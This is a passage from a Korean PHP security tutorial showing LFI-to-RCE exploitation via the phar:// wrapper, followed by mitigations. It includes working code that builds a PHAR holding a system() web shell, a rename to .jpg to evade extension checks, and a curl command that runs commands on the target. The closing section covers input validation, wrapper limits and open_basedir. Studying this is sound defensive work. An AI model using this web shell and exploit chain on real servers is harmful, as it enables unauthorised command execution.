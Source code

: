 
먼저 `cmd.txt` 웹셸 파일을 포함한 `cmd.phar` 파일을 생성하고, `setStub()` 함수를 통해 PHAR 파일 시작 시 `__HALT_COMPILER()` 명령(PHP 코드 실행 중단)을 통해 PHAR 파일이 정상적으로 작동하도록 설정하는 코드(cmd.php)를 작성한다.
```php
<?php
    $phar = new Phar('cmd.phar');
    $phar->startBuffering();
    $phar->addFromString('cmd.txt', '<?php system($_GET["cmd"]); ?>');
    $phar->setStub('<?php __HALT_COMPILER(); ?>');
    $phar->stopBuffering();
?>
```

PHAR 파일의 `phar.readonly` 설정을 비활성화한 후 `cmd.php`를 실행하여 `cmd.phar`을 생성한다. 확장자 검증을 수행할 수 있기 때문에 확장자도 변경하자.
```shell
attacker$ php --define phar.readonly=0 cmd.php && mv cmd.phar cmd.jpg
```

파일 업로드 경로가 `/var/www/html/uploads/cmd.jpg`라는 사실을 가정하고, LFI 취약점이 존재하는 페이지에서 Phar Wrapper를 이용하여 RCE를 수행한다.
```shell
attacker$ curl "$URL/?file=phar:///var/www/html/uploads/cmd.jpg/cmd.txt&cmd=whoami"
```


[PHP Filter Chain 스크립트]:https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py
[Girsh]:https://github.com/nodauf/Girsh
[PHP Wrapper]:https://www.php.net/manual/en/wrappers.php
[PHP Filters Chain]:https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html


# 대응방안
---

### 입력값 검증
사용자로부터 입력받은 파일 경로나 파일명 등의 값에 대해 검증한다.
입력값을 사용하기 전에 절대경로와 상대경로를 구분하고, 접두어를 검사하여 Wrapper를 사용하는지 확인한다.

파일 경로나 파일명 등의 입력값을 처리할 때 WhiteList를 사용하여 허용된 값만 처리하도록 설정한다.
허용된 디렉터리나 파일 리스트를 미리 지정하고, 그 외의 값을 거부한다.

### Wrapper 사용제한
file://, http://, ftp:// 등의 Wrapper 사용 시에는 제한된 범위 내에서만 사용하도록 설정한다.
특정 디렉터리나 파일을 제외한 나머지는 Wrapper를 사용하지 못하도록 제한한다.

### open_basedir 설정
php.ini 파일을 수정하여 open_basedir 설정을 통해 파일 시스템에 접근 가능한 범위(특정 디렉터리 이하 파일만 읽기 허용)를 제한한다.
```
open_basedir = /var/www/html/
```
